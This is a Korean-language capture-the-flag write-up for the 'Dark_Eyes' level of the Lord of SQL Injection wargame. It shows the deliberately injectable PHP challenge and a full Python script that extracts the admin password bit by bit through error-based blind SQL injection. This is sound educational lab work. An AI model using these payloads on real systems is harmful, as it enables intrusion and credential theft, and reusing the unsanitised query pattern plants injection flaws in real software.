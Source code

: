 # **Dark_Eyes**
## 1. 문제의도
Error based Blind SQLi

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
      exit("No Hack ~_~");

    if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw]))
      exit("HeHe");

    $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(mysql_error()) exit();

    echo "<hr>query : <strong>{$query}</strong><hr><br>";

    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("dark_eyes");

    highlight_file(__FILE__);
  ?>
```
----

### 1. 통과 조건

pw를 알아내야한다. 하지만 Hello admin 같은 건 띄워주지 않고 에러가 나면 그대로 종료한다. highlight_file 도 실행되지 않는 다는 건데 이걸로 Blind SQLi 가 가능하겠다!

----
## 3. Solution

위에서 다 적어버렸지만 강제로 에러를 유도해서 SQLi를 하면 된다.

### My Answers :

이 비밀번호가 ascii 라는 가정하에 코딩하였다.
short-circuit 잘 되겠지 했지만 안 되는 것이었다..(뒤에 까지 다 검사하더라,,)  
그래서 그냥 연산을 이용해서 처리했다.  

```python
#-*- coding: utf-8 -*-
import string
from web import *

url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw={}"

# get length
length = 0
inject_url = "' or ~0+(length(pw)={})#"

for i in range(100):
    req = getRequest(url, inject_url.format(i), show=False)
    page = getPage(req)
    if "" == page:
        print "Length :",i
        length = i
        break

# set Char length
inject_url = "' or ~0+(id='admin' and length(bin(ascii(substr(pw,{},1))))={})#"
chr_length = []

for i in range(1,length+1):
    for j in range(1,100):
        req = getRequest(url, inject_url.format(i,j), show=False)
        page = getPage(req)
        if "" == page:
            chr_length.append(j)
            break

print "Check bit length :",chr_length

# get password : brute forcing : for admin
password = []
inject_url = "' or ~0+(id='admin' and substr(bin(ascii(substr(pw,{},1))),{},1)=1)#"

for i in range(1,length+1):
    tmp = ""
    for j in range(1, chr_length[i-1]+1):
        req = getRequest(url, inject_url.format(i,j), show=False)
        page = getPage(req)
        if "" == page: tmp += "1"
        else: tmp += "0"
        print tmp

    password.append(chr(int(tmp,2)))
    print password

print "Password :","".join(password)
```

이게 엄청 빠르네(bin 이용),,,  
어쨌든 클리어~!

**Lastly, There can be many answers**  

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
